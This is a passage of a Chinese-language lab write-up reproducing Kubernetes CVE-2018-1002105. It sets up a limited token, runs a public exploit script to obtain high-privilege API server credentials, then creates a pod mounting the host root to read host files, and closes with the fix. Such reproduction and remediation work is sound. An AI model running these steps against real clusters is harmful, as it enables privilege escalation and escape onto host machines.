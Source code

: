 在 API Server 的配置文件 /etc/kubernetes/manifests/kube-apiserver.yaml 中容器的启动参数部分末尾（spec.container.command）增加一行配置

```yaml
--token-auth-file=/etc/kubernetes/pki/test-role-token.csv
```

等待 API Server 重启，此时场景就搭建完毕了，下面测试下，场景是否正常

```yaml
kubectl --token=password --server=https://172.16.214.18:6443 --insecure-skip-tls-verify exec -it test -n test /bin/hostname
kubectl --token=password --server=https://172.16.214.18:6443 --insecure-skip-tls-verify get pods -n kube-system
```

结果显示能够对指定 Pod 执行命令，但是不能执行其他越权操作，符合预期场景。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203241628124.png)

## 漏洞利用

使用脚本获得高权限凭证文件，脚本地址：https://github.com/Metarget/cloud-native-security-book/blob/main/code/0403-CVE-2018-1002105/exploit.py

```yaml
python3 exploit.py --target 172.16.214.18 --port 6443 --bearer-token password --namespace test --pod test
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203241628455.png)

接着，使用拿到的高权限凭证在集群中新建一个挂载了宿主机根目录的 Pod，yaml 文件地址：https://github.com/Metarget/cloud-native-security-book/blob/main/code/0403-CVE-2018-1002105/attacker.yaml

```yaml
kubectl --server=https://172.16.214.18:6443 --certificate-authority=./ca.crt --client-certificate=./apiserver-kubelet-client.crt --client-key=./apiserver-kubelet-client.key apply -f attacker.yaml
```

Pod 被成功创建后，执行 ls /host-escape-door 命令可成功看到宿主机下的文件。

```yaml
kubectl --server=https://172.16.214.18:6443 --certificate-authority=./ca.crt --client-certificate=./apiserver-kubelet-client.crt --client-key=./apiserver-kubelet-client.key exec attacker ls /host-escape-door
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203241629440.png)

至此，完成了 CVE-2018-1002015 漏洞的复现。

# 0x03 漏洞修复

该漏洞的修复也比较简单，直接在 API Server 中增加对后端服务器返回值的判断即可。

在新版 k8s 中的 tryUpgrade 函数这里，会判断状态码是否等于 http.StatusSwitchingProtocols，即 101，如果状态码不等于 101，则关闭连接。
